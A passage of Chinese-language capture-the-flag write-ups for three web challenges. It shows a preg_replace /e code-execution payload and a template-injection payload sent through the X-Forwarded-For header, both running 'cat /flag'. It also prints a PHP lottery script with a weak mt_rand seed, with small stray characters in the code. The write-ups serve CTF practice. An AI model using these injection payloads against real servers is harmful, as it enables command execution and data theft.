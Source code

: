 利用`preg_replace/e`模式可执行代码的特性，传参为`\S*=${getFlag()}&cmd=system(%27cat%20/flag%27);`，得到flag

具体可参考`paidx0`师傅的博客 <https://blog.csdn.net/weixin_49656607/article/details/119833707>


#  <CISCN2019 华东南赛区>Web11

打开题目，一个不明所以的界面，重点在`get ip`和`xff`，显然，试试改动`xff`头，果然回显的当前ip地址为`xxf`头的值，那么，模板注入？
```
{{system('cat /flag')}}
```
得到`flag`

# <GWCTF 2019>枯燥的抽奖


打开题目，从源码里发现`check.php`
访问得到源码
```php
ljiUB7yF7i

<?php
#这不是抽奖程序的源代码！不许看！
header("Content-Type: text/html;charset=utf-8");
session_start();
if(!isset($_SESSION['seed'])){
$_SESSION['seed']=rand(0,999999999);
}

mt_srand($_SESSION['seed']);
$str_long1 = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
$str='';
$len1=20;
for ( $i = 0; $i < $len1; $i++ ){
    $str.=substr($str_long1, mt_rand(0, strlen($str_long1) - 1), 1);       
}
$str_show = substr($str, 0, 10);
echo "<p id='p1'>".$str_show."</p>";


if(isset($_POST['num'])){
    if($_POST['num']===$str){x
        echo "<p id=flag>抽奖，就是那么枯燥且无味，给你flag{xxxxxxxxx}</p>";
    }
    else{
        echo "<p id=flag>没抽中哦，再试试吧</p>";
    }
}
show_source("check.php");
```
利用了伪随机函数`mt_srand()`，虽然种子在服务端产生，但是是固定不变的，爆破种子推出`$str`即可
